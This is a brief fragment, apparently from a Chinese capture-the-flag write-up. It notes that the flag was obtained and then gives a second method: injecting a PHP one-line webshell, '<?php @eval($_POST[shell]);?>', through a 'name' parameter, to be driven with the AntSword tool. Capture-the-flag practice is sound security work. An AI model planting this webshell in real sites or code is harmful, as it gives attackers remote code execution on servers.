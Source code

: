 ![image-20240125152535232](image/image-20240125152535232.png)

得到flag

#### 方法二：蚁剑链接

```
name=<?php @eval($_POST[shell]);?>
```
